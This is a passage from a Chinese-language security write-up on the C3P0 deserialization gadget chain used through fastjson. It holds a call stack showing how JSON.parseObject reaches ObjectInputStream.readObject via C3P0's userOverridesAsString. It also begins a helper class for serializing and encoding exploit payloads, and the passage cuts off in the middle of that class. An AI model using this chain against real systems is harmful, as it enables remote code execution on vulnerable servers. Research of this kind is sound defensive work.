 同样的，给出调用栈

```
readObject:431, ObjectInputStream (java.io)
deserializeFromByteArray:144, SerializableUtils (com.mchange.v2.ser)
fromByteArray:123, SerializableUtils (com.mchange.v2.ser)
parseUserOverridesAsString:318, C3P0ImplUtils (com.mchange.v2.c3p0.impl)
vetoableChange:110, WrapperConnectionPoolDataSource$1 (com.mchange.v2.c3p0)
fireVetoableChange:375, VetoableChangeSupport (java.beans)
fireVetoableChange:271, VetoableChangeSupport (java.beans)
setUserOverridesAsString:387, WrapperConnectionPoolDataSourceBase (com.mchange.v2.c3p0.impl)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
setValue:96, FieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:118, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:1061, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:756, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:271, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:267, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:370, DefaultJSONParser (com.alibaba.fastjson.parser)
parseObject:523, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1335, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1301, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:152, JSON (com.alibaba.fastjson)
parse:162, JSON (com.alibaba.fastjson)
parse:131, JSON (com.alibaba.fastjson)
parseObject:223, JSON (com.alibaba.fastjson)
```

#### [小结](https://tttang.com/archive/1701/#toc__6)

这条链子很明显，是配合`Fastjson`、`Jackson`环境下不出网利用的打法

### [用到的工具类](https://tttang.com/archive/1701/#toc__7)

```
import com.alibaba.fastjson.JSON;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import javassist.ClassPool;
import javassist.CtClass;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class Tool {
    private Tool(){}
    public static void run(Object obj, String mode, String type) throws Exception {
        switch (type) {
            case "object" :
                String object = base64Encode(serialize(obj));
                System.out.println(object);
                if (mode.equals("debug"))
                    deserialize((base64Decode(object)));
                break;
            case "hessian" :
                String hessian = base64Encode(hessianser(obj));
                System.out.println(hessian);
                if (mode.equals("debug"))
                    hessiandeser(base64Decode(hessian));
                break;
            case "hex" :
                byte[] bytes = serialize(obj);
```